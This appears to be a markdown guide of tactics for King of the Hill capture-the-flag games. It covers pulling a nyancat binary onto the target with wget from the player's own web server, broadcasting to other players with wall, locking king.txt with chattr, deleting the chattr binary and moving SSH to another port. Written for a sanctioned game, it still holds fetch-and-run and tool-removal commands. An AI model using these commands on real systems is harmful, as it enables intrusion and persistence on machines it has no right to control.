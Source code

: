 ### How is it important?  
It is very important to **HAVE FUN** during the game unless you are a competitive player.
It is important to showcase your nyancat to every player you are playing with. But how? 
Here are the simple steps:  

```bash
git clone https://github.com/klange/nyancat.git && cd nyancat # Clone the files from the git repository
make && cd src # Build the application
./nyancat # Run the binary and enjoy!
```

### But wait! 
That's unfair. You are the only one who enjoys the nyancat! 
Transfer the binary to the machine and show it to your fellow players by doing the steps below. 

```bash
sudo python3 -m http.server 80 # Initiate a web server
wget http://yourip/nyancat # On the KOTH machine, wget the file from your machine
chmod +x nyancat # Make it an executable
./nyancat | wall # Show it to your fellow players!
```

## chattr (used for the king.txt file)
Use `chattr` to set the immutability bit on the king.txt file and make it unwritable until another player does the inverse. You can also remove `chattr` from the system to make sure no one removes this protection.

Add the immutability bit:
```bash
chattr +i /root/king.txt
```

Remove the immutability bit:
```bash
chattr -i /root/king.txt
```

Remove chattr:
```bash
which chattr # Get chattr's path, default: /usr/bin/chattr

rm usr/bin/chattr # Or another path if different
```

# Port Migration
Since disabling services is illegal in a KOTH (King of the Hill) game, what we can do is to move the services into a different port. This way, we do not kill a certain service but we patched it by migrating it into a different port.

The best example is an SSH Service running on port 22. We can move it to any port that you only know to minimize SSH Bruteforce attacks and other players that have ssh credentials.
